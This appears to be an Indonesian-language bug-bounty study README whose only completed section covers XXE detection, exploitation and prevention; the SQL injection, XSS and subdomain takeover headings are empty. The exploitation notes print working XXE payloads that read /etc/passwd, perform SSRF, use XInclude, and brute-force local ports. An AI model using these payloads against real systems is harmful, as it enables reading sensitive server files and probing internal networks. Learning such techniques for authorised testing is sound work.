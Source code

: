 # Vulnerability :bug:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/89898222-85c0a500-dc0a-11ea-9eca-815238a55a38.jpg" width="500"></p>

Online resource:
- [bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet) - by EdOverflow
---

## XXE
Sebelum memahami XXE, kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
- Detection
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML, disebut juga XML endpoint
  - Intercept web page, lalu cari web yang request header `Content-Type`-nya `text/xml` atau `application/xml
  - Cari fitur web yang mengunakan XML, seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
- Exploitation
  - Retrieve Files
    - Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian !DOCTYPE
    - `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>`
  - Exploiting to perform Server Side Request Forgery (SSRF)
    - Sama seperti cara di atas. Tapi jika sebelumnya menggunakan `file`, untuk exploitasi ini menggunakan `http` dilanjutkan dengan ip server
    - `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>`
  - Jika tidak bisa modifikasi !DOCTYPE, gunakan `XInclude`
    - `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
  - Test local machine port (gunakan burp intruder)
    - brute port dari ip local, lalu cek bergantian antara http dan https
    - `<!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">`
    - `<!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">`
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/)
    - store XML payload ke server, jika tidak punya gunakan [filebin](https://filebin.net/)
    
- Prevention
  - Disable DTD
  - Disable entity saja
---
## Subdomain Takeover

---
## SQL Injection

---
## XSS


